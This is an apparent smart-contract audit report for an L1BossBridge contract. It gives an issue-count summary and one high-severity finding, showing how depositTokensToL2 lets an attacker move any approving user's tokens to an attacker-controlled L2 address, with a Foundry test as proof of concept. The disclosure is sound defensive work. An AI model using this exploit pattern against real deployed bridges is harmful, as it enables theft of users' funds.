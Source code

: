# Executive Summary

## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 6                      |
| Medium   | 1                      |
| Low      | 3                      |
| Info     | 1                      |
| Gas      | 0                      |
| Total    | 11                     |

# Findings

## High 

### [H-1] Users who give tokens approvals to `L1BossBridge` may have those assest stolen

The `depositTokensToL2` function allows anyone to call it with a `from` address of any account that has approved tokens to the bridge.

As a consequence, an attacker can move tokens out of any victim account whose token allowance to the bridge is greater than zero. This will move the tokens into the bridge vault, and assign them to the attacker's address in L2 (setting an attacker-controlled address in the `l2Recipient` parameter).

As a PoC, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanMoveApprovedTokensOfOtherUsers() public {
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);

    uint256 depositAmount = token.balanceOf(user);
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(user, attackerInL2, depositAmount);
    tokenBridge.depositTokensToL2(user, attackerInL2, depositAmount);

    assertEq(token.balanceOf(user), 0);
    assertEq(token.balanceOf(address(vault)), depositAmount);
    vm.stopPrank();
}
```
